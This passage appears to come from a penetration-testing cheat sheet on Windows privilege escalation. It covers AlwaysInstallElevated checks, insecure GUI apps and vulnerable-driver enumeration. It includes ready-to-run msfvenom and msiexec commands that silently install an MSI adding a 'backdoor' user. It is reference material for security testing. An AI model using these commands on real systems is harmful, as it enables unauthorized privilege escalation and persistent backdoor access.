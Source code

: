 To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

```bat
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in Metasploit :
`exploit/windows/local/always_install_elevated`

## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse
directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt",
click on "Click to open Command Prompt"

## EoP - Evaluating Vulnerable Drivers

Look for vuln drivers loaded, we often don't spend enough time looking at this:

```powershell
# https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery

PS C:\Users\Swissky> driverquery.exe /fo table
Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>

PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
    Service Name: ctxusbm
    Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
    Version: 14.11.0.138
    Creation Time (UTC): 17/05/2018 01:20:50
    Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
    Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
<SNIP>
```